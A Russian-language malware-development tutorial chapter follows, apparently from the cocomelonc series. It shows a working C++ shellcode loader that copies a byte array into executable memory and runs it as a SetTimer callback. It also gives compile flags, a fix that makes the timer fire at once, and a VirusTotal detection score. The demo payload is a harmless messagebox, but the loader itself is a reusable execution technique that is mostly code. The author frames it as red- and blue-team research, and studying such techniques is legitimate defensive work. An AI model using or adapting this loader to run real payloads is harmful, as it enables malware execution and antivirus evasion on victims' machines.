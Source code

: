 \newpage
\subsection{44. трюк разработки вредоносного ПО. Запуск шеллкода через SetTimer. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![трюк](./images/98/2023-06-04_13-37.png){width="80%"}      

Эта статья является результатом моего собственного исследования следующего интересного трюка: запуск шеллкода через функцию `SetTimer`.      

### SetTimer

Функция `SetTimer` является частью Windows API. Она используется для создания таймера с заданным временем ожидания.     

Вот её базовый синтаксис:    

```cpp
UINT_PTR SetTimer(
  HWND      hWnd,
  UINT_PTR  nIDEvent,
  UINT      uElapse,
  TIMERPROC lpTimerFunc
);
```

Где:

- `hWnd`: Дескриптор окна, связанного с таймером. Это окно должно принадлежать вызывающему потоку. Если передан `NULL` вместе с `nIDEvent` существующего таймера, старый таймер будет заменён новым.      
- `nIDEvent`: Идентификатор таймера (ненулевой). Если `hWnd` равно `NULL`, и `nIDEvent` не соответствует существующему таймеру, он игнорируется, и создаётся новый ID таймера. Если `hWnd` не равно `NULL`, и указанное окно уже имеет таймер с `nIDEvent`, то старый таймер заменяется новым.      
- `uElapse`: Время ожидания в миллисекундах.      
- `lpTimerFunc`: Указатель на функцию, которая вызывается по истечении времени ожидания. Если этот параметр равен `NULL`, система отправляет сообщение `WM_TIMER` в очередь приложения. Это сообщение обрабатывается оконной процедурой.      

### практический пример

Итак, в чём суть трюка? Просто посмотрите на этот код (`hack.c`):      

```cpp
/*
 * hack.cpp - shellcode execution via SetTimer. 
 * C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/06/04/malware-tricks-31.html
*/
#include <stdio.h>
#include <windows.h>

int main(int argc, char* argv[]) {
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  PVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT | MEM_RESERVE, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  UINT_PTR dummy = 0;
  MSG msg;

  SetTimer(NULL, dummy, NULL, (TIMERPROC)mem);
  GetMessageA(&msg, NULL, 0, 0);
  DispatchMessageA(&msg);

  return 0;
}
```

Как можно заметить, этот код пытается выполнить шеллкод, используя API `SetTimer` Windows, передавая в него указатель на функцию `(TIMERPROC)`, которая будет вызвана по истечении таймера.     

Как обычно, для простоты я использовал полезную нагрузку с messagebox `meow-meow`:      

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### демонстрация

Давайте посмотрим всё в действии. Компилируем наш "вредонос":     

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![трюк](./images/98/2023-06-04_13-38.png){width="80%"}      

Запускаем на машине жертвы:     

```powershell
.\hack.exe
```

![трюк](./images/98/2023-06-04_13-59.png){width="80%"}      

Как можно заметить, всё сработало идеально! =^..^=

Давайте загрузим `hack.exe` на VirusTotal:       

![трюк](./images/98/2023-06-04_14-01.png){width="80%"}      

**Итак, 19 из 71 антивирусных движков определили наш файл как вредоносный.**      

[https://www.virustotal.com/gui/file/6b418cb08b87c07246170577503e9ef2e98f39e44afa9b53a0747fa9f5ed524e/detection](https://www.virustotal.com/gui/file/6b418cb08b87c07246170577503e9ef2e98f39e44afa9b53a0747fa9f5ed524e/detection)       

Но, похоже, в нашем "грязном" PoC-коде есть проблема.      

Функция `SetTimer` требует установки параметра `uElapse`, который представляет собой значение времени ожидания в миллисекундах. Если установить его в `NULL` или `0`, функция не создаст таймер. Поэтому, если мы хотим выполнить шеллкод немедленно, нам нужно установить `uElapse` в `1`. Например так:      

```cpp
SetTimer(NULL, dummy, 1, (TIMERPROC)mem);  // Set uElapse to 1
while (GetMessageA(&msg, NULL, 0, 0)) {    // Using while loop to keep the 
                                           //message pump running
  DispatchMessageA(&msg);
}
```

Этот код создаст таймер, который сработает практически мгновенно и вызовет наш шеллкод в качестве функции обратного вызова. Конечно, стоит отметить, что такая техника может быть распознана антивирусами как вредоносная из-за аномального поведения выполнения кода через таймерный callback.        

Я пока не встречал этот трюк в реальных вредоносных программах и APT-атаках. Надеюсь, этот пост повысит осведомлённость синих команд об этой интересной технике разработки вредоносного ПО и добавит оружие в арсенал красных команд.      

[SetTimer](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-settimer)      
[Malware dev tricks. Run shellcode via EnumDesktopsA](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html)        
[Classic DLL injection into the process. Simple C++ malware](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html)        
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2023-06-04-malware-tricks-31)           
